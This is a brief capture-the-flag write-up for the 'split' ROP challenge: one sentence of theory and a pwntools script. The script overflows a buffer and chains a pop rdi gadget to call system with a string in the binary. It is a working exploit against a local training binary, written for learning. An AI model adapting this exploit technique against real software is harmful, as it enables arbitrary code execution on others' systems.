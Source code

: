 # Challenge Solution and Theory
This is a simple rop chain challenge where the attacker builds a three gadget chain in order to call the system function with a string inside the binary's .data section. 
## Script:
```python
#!/usr/bin/python3
import pwn
binary = "split"
pwn.context.binary = binary
#pwn.context.encoding = "latin"
pwn.context.log_level = "debug"

padding = 40
gadget_pop_rdi = pwn.p64(0x4007c3)
address_read_flag = pwn.p64(0x601060)
address_call_system = pwn.p64(0x40074b)
payload = b"A"*padding + gadget_pop_rdi + address_read_flag + address_call_system

with open("input", "wb") as debug:
    debug.write(payload)

with pwn.process(binary) as io:
    io.send(payload)
    io.interactive()
```
